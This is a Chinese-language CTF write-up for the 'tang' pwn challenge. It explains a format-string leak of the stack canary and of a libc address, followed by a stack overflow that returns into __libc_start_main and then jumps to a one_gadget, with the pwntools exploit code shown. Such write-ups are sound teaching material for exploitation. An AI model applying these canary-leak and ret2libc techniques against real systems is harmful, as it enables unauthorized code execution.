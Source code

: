 
## tang (588pt)
- 题目描述：
  
    > none
- 题目附件：[tang](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/tang/tang)
- 考察点：格式化字符串、ret2libc_start_main
- 难度：中等

### 程序分析
这题和mengxin那题差不多，就是多了个格式化字符串漏洞，泄漏libc和canary的方式改为用`%p`泄漏，剩下的都一样了。就不过多分析了。

### 解题思路
```python
sea('你怎么了？\n','%9$p') # canary
canary = eval(rc(18))
info_addr('canary',canary)
sea('烫烫烫烫烫烫烫烫烫烫烫烫\n','TaQini')

payload = cyclic(56)+p64(canary)
payload = payload.ljust(88,'T')
payload += '\x16'  # ret2libc_start_main
sea('...你把手离火炉远一点！\n',payload)
```

> 泄漏canary、ret2libc_start_main

```python
# round2
sea('你怎么了？\n','%23$p') # canary
libc_start_main_ret = eval(rc(14))
info_addr('libc_start_main_ret',libc_start_main_ret)
libcbase = libc_start_main_ret - 0x20830
info_addr('libcbase',libcbase)
og = libcbase + 0xf1147
sea('烫烫烫烫烫烫烫烫烫烫烫烫\n','TaQini')

pl2 = cyclic(56)+p64(canary)
pl2 = pl2.ljust(88,'Q')
pl2 += p64(og)
sea('...你把手离火炉远一点！\n',pl2)
```

> 泄漏libc、one gadget

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/tang) 


